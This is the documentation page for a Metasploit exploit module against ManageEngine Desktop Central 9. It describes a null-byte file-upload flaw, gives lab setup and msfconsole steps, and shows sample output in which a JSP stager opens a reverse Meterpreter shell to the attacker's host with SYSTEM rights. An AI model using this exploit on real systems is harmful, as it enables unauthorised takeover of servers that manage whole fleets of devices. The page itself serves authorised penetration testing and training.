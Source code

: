 ## Description

This module exploits a vulnerability found in ManageEngine Desktop Central 9. When uploading a 7z file, the FileUploadServlet class does not check the user-controlled ConnectionId parameter in the FileUploadServlet class. This allows a remote attacker to inject a null byte at the end of the value to create a malicious file with an arbitrary file type, and then place it under a directory that allows server-side scripts to run, which results in remote code execution under the context of SYSTEM. This exploit was successfully tested on version 9, build 90109 and build 91084.

**NOTE:** By default, some ManageEngine Desktop Central versions run on port 8020, but older ones run on port 8040. Also, using this exploit will leave debugging information produced by FileUploadServlet in file `rdslog0.txt`.
       
## ManageEngine Desktop Central 9

Desktop Central is integrated desktop and mobile device management software that helps in managing servers, laptops, desktops, smartphones, and tablets from a central location. It is used for automating your regular desktop management routines like installing patches, distributing software, managing your IT Assets, managing software licenses, monitoring software usage statistics, managing USB device usage, taking control of remote desktops, and more. It supports managing both Windows, Mac and Linux operating systems.

## Prerequisites

1. Start a Windows VM (such as Win 7)
2. Install a vulnerable version of ManageEngine Desktop Central. This exploit was tested on Build 90109 and 91084. You can find the archive here: http://archives.manageengine.com/desktop-central/
3. After installation, verify that the server is working by visiting it with a browser. Depending on the version, the server port may be 8020, or 8040.

## Verification Steps

1. Do: ```use exploit/windows/http/manageengine_connectionid_write```
2. Do: ```set RHOST [IP]```
3. Do: ```check```
4. Do: ```run```

## Sample Output

```
$ msfconsole
msf > use exploit/windows/http/manageengine_connectionid_write 
msf exploit(manageengine_connectionid_write) > set rhost 192.168.1.188
rhost => 192.168.1.188
msf exploit(manageengine_connectionid_write) > check
[*] 192.168.1.188:8020 - The target appears to be vulnerable.
msf exploit(manageengine_connectionid_write) > exploit

[*] Started reverse handler on 192.168.1.64:4444 
[*] Creating JSP stager
[*] Uploading JSP stager test.jsp...
[*] Executing stager...
[*] Sending stage (885806 bytes) to 192.168.1.188
[*] Meterpreter session 1 opened (192.168.1.64:4444 -> 192.168.1.188:61023) at 2017-04-15 17:35:29 -0500
[+] Deleted ../webapps/DesktopCentral/jspf/test.jsp

meterpreter > pwd
C:\ManageEngine\DesktopCentral_Server\bin
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```
